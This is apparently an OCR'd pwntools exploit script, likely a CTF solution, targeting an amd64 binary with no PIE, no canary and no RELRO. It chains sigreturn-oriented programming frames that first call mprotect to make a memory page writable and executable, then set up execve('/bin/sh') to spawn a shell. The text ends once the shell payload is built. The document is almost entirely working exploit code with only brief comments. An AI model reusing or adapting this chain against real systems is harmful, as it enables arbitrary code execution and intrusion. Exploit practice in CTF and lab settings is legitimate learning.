 ```
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
#    Arch:     amd64-64-little
#    RELRO:    No RELRO
#    Stack:    No canary found
#    NX:       NX enabled
#    PIE:      No PIE (0x400000)


io = start()

# rax syscall x64
# 0   read
# 1   write
# 15  rt_sigreturn
# 59  execve

main_addr = exe.sym["main"]
syscall_ret_addr = 0x00401018
fake_rwx_stack_addr = 0x004020b8


mprotect_frame = SigreturnFrame()
mprotect_frame.rip = syscall_ret_addr # return to main and do other thing
mprotect_frame.rsp = fake_rwx_stack_addr
mprotect_frame.rax = constants.SYS_mprotect
mprotect_frame.rdi = 0x00402000
mprotect_frame.rsi = 0x1000
mprotect_frame.rdx = 7 # rwx

do_mprotect = flat({
    0:[
        main_addr,
        syscall_ret_addr,
        bytes(mprotect_frame)
    ]
})

input("send mprotect payload")
io.send(do_mprotect) # set up sigreturn frame
input("trigger sigreturn and mprotect")
io.send(do_mprotect[8:8+15]) # read 15 bytes, trigger sigreturn


execve_bin_sh_frame = SigreturnFrame()
execve_bin_sh_frame.rip = syscall_ret_addr # return to main and do other thing
execve_bin_sh_frame.rsp = fake_rwx_stack_addr # 
execve_bin_sh_frame.rax = constants.SYS_execve
execve_bin_sh_frame.rdi = fake_rwx_stack_addr +8+ len(flat({0:[main_addr,syscall_ret_addr,bytes(execve_bin_sh_frame)]}))
execve_bin_sh_frame.rsi = 0
execve_bin_sh_frame.rdx = 0

do_execve_bin_sh = flat({
    0:[
        main_addr,
        syscall_ret_addr,
        bytes(execve_bin_sh_frame),
        b"/bin/sh\x00",
    ]
})

```